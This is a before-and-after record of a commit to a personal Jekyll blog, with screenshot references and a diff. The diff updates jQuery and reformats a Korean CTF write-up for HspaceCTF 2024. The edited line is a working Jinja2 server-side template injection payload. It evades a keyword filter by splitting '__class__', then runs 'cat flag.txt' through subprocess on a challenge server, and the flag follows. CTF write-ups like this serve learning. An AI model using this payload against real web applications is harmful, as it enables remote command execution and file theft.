

Before and after one commit to jiniljeil/jiniljeil.github.io, a Jekyll site: the page built from _posts/2024-01-13-HspaceCTF 2024.md, in a window 1280 px wide and 900 px high, scrolled down 1683 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
HspaceCTF

````diff
--- a/_includes/head.html
+++ b/_includes/head.html
@@ -10,6 +10,6 @@
   {%- if jekyll.environment == 'production' and site.google_analytics -%}
     {%- include google-analytics.html -%}
   {%- endif -%}
-  <script src="https://code.jquery.com/jquery-3.2.0.min.js"></script>
+  <script src="https://code.jquery.com/jquery-3.7.1.min.js"></script>
   <script src="{{ "/assets/js/jquery.magnific-popup.js" | relative_url }}"></script>
 </head>
--- a/_posts/2024-01-13-HspaceCTF 2024.md
+++ b/_posts/2024-01-13-HspaceCTF 2024.md
@@ -52,9 +52,7 @@ def Prevent_SSTI(input):
 키워드 위주로 필터링이 걸려있어 이를 우회해주면 된다.
 
 ## Exploit Code
-```python
-http://3.34.190.217:1337/?name={{request[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()}}
-```
+`http://3.34.190.217:1337/?name={{request[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()}}`
 
 ### FLAG
 hspace{57a32c35915278d4de4ca21a8dc22b7f642a2a33e1508050c9498e1e48290e38}
````
